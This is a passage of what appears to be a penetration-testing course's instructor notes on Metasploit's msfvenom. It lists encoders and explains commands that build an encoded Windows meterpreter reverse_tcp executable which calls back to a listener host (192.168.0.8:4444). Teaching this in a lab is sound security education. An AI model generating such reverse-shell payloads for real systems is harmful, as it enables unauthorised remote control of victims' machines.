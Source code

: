 4. List  `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     Type the following command:

     - `msfvenom -l encoders`

      ![MSV 3](Images/MSV_3.png)

   Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. `msfvenom` does both actions, and more, in a single command.


#### Msfvenom command structure

Now we'll cover the basics of `msfvenom`'s custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

      - `msfvenom`: Launches the `msfvenom` program.

      - `-p`: Indicates payload. 

      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.

      - `-a x86`: Designates the architecture we will use. `x86` is default.

      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.

      - `-f exe`: Indicates the file type to create. In this case, `.exe`.

      - `-o /tmp/malware.exe`: Creates an output file, naming the file (`malware.exe`) and location (inside the `/tmp` directory).

- Next, let's breakdown the msfvenom we used last class:  

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


### 02.  Activity: Creating Custom Payloads 
